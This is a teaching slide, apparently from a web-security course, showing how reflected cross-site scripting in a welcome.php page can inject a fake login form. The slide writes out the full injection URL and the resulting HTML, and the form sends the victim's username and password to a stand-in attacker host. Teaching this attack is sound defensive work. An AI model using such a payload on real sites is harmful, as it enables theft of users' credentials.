

# A More Real Example
More realistically, the attacker can embed a fake login box on the page, tricking the user into sending the user's password to the attacker:

If a user clicks on this link then Welcome.php will generate the following HTML and send it to the user's browser:
http://trustedSite.example.com/welcome.php?username=<div id="stealPassword">Please Login:<form name="input" action="http://attack.example.com/stealPassword.php" method="post">Username: <input type="text" name="username" /><br/>Password: <input type="password" name="password" /><br/><input type="submit" value="Login" /></form></div>
<div class="header"> Welcome, <div id="stealPassword"> Please Login:
<form name="input" action="attack.example.com/stealPassword.php" method="post">Username: <input type="text" name="username" /><br/>
Password: <input type="password" name="password" /><br/>
<input type="submit" value="Login" />
</form>
</div></div>
| 4 |